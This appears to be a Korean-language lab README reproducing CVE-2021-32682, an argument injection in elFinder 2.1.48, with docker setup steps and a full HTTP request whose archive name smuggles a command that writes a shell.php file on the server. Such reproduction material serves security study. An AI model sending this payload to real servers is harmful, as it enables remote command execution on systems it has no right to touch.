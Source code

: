 # elFinder ZIP 인수 삽입이 명령어 삽입으로 이어짐(CVE-2021-32682)

[한국어 버전(Korean version)]

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자입니다.

elFinder 2.1.48 버전과 이전 버전에서 Arguments Injection이 발견되었습니다. 이 취약점을 통해 최소한의 구성이라도 elFinder PHP connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다. 이 문제는 2.1.59에서 패치되었습니다. 반드시 인증 없이 노출되게 하지 마세요.

참고 자료:

* https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities
* https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
* https://xz.aliyun.com/t/10739

## 취약점 환경
elFinder 2.1.48를 시작할려면 다음 명령을 실행하십시오:<br>
<pre><code>docker compose up -d</code></pre>
서버가 시작된 후 <code>http://your-ip:8080</code>에서 elFinder의 메인 페이지를 볼 수 있습니다.

## 취약점 재현
먼저, 이 취약점 흐름을 위해 2개의 파일을 준비헤야됩니다.<br><br>
<code>1.txt</code>라는 일반 텍스트 파일을 만듭니다.:<br><br>
![1](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/1.png)

마우스 오른쪽 버튼 클릭 메뉴에서 이 파일을 ZIP 형식으로 보관하고 보관된 파일 이름을 <code>2.zip</code>로 수정합니다.:

![2](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/2.png)

<code>1.txt</code>와 <code>2.zip</code>가 여기 준비되었습니다.:

![3](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/3.png)

그 다음, 임의의 명령을 실행하기위해 아래의 요청을 보냅니다.
<pre><code>GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close<br>br></code></pre>
